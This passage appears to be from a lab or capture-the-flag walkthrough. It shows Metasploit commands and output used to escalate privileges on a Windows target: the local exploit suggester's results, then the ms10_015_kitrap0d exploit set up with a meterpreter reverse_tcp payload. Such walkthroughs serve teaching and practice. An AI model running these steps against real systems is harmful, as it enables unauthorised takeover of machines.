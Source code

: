 So I set the current connection to the background by just sending the command:

`meterpreter > background`

And used meterpreters own exploit suggester to find a possible escalation exploit. Which is only possible on x86 architecture.
This can be checked with the `sysinfo` command in metasploit. 

```
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.129.55.78 - Collecting local exploits for x86/windows...
[*] 10.129.55.78 - 35 exploit checks are being tried...
[+] 10.129.55.78 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.129.55.78 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.129.55.78 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.129.55.78 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.129.55.78 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.129.55.78 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.129.55.78 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.129.55.78 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.129.55.78 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.129.55.78 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.129.55.78 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.129.55.78 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```

I tried the bypassuac_eventvwr, but it failed. The next one works, however:


```
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms10_015_kitrap0d 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms10_015_kitrap0d) > options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
```
